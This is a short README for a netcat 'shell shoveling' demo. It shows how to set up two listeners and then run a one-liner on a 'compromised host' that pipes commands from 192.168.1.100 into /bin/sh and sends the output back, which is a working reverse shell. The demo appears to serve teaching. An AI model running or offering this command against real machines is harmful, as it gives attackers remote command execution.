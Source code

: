 Shell Shovel
============

I put this together to demonstrate shell shoveling using netcat. I admit,
creating these shell scripts is a little silly, however, it is for
demonstration.


## Running the demo

On your localhost run shovel-input.sh and shovel-display.sh

Be sure your iptables rules are set to allow access to the ports.

For the sake of demonstration we will localhost is at 192.168.1.100


### In terminal window 0x1

```$ ./shovel-input.sh 41337```

You could run the following instead.

```$ nc -vn -l -k -p 41337```

After the next two things are running, come back here to run commands that
will be executed on the target host and display in the next terminal,
window 0x2.

### In terminal window 0x2

```$ ./shovel-display.sh 41338```

You could run the following instead.

```$ nc -l -k -vn -p 41338```

The output of commands executed in window 0x1 will appear here.


### From the remote/compromised host

Do the netcat shoveling magic.

```$ ./target.sh 192.168.1.100 41337 41338```

You could also run the following instead.

```$ nc -vn 192.168.1.100 41337 | /bin/sh | nc -vn 192.168.1.100 41338 > /tmp/foo.bar```

In practice something like this would be scripted and executed remotely.

